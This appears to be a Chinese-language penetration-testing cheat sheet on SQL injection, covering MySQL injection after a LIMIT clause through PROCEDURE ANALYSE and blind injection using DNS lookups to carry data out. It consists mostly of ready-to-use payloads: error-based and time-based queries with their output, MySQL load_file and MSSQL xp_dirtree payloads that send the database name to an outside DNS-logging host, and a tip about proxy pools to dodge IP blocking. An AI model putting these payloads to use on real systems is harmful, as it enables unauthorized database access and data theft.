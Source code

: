 

### Mysql下Limit注入方法


此方法适用于MySQL 5.x中，在limit语句后面的注入 

在LIMIT后面可以跟两个函数，PROCEDURE 和 INTO，INTO除非有写入shell的权限，否则是无法利用的，那么使用**PROCEDURE**函数能否注入呢？

```plsql
mysql> SELECT field FROM table where id > 0 ORDER BY id LIMIT 1,1 PROCEDURE ANALYSE(1); 
ERROR 1386 (HY000): Can't use ORDER clause with this procedure

ANALYSE可以有两个参数：

mysql> SELECT field FROM table where id > 0 ORDER BY id LIMIT 1,1 PROCEDURE ANALYSE(1,1); 
ERROR 1386 (HY000): Can't use ORDER clause with this procedure

但是立即返回了一个错误信息： 
mysql> SELECT field from table where id > 0 order by id LIMIT 1,1 procedure analyse((select IF(MID(version(),1,1) LIKE 5, sleep(5),1)),1);
ERROR 1108 (HY000): Incorrect parameters to procedure 'analyse'


sleep函数肯定没有执行，可以攻击的方式： 
mysql> SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1); 
ERROR 1105 (HY000): XPATH syntax error: ':5.5.41-0ubuntu0.14.04.1'


如果不支持报错注入的话，还可以基于时间注入：
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
直接使用sleep不行，需要用BENCHMARK代替。 
```

  


### Sql 注入无回显，利用 DNSlog带出

```basic
1. 没有回显的情况下，一般编写脚本，进行自动化注入。但与此同时，由于防火墙的存在，容易被封禁IP，可以尝试调整请求频率，有条件的使用代理池进行请求。

2. 此时也可以使用 DNSlog 注入，原理就是把服务器返回的结果放在域名中，然后读取 DNS 解析时的日志，来获取想要的信息。

3. Mysql 中利用 load_file() 构造payload

‘ and if((select load_file(concat(‘\\\\’,(select database()),’.xxx.ceye.io\\abc’))),1,0)# 

4. Mssql 下利用 master..xp_dirtree 构造payload

DECLARE @host varchar(1024);SELECT @host=(SELECT db_name())+’.xxx.ceye.io’;EXEC(‘master..xp_dirtree”\’+@host+’\foobar$”‘);
```
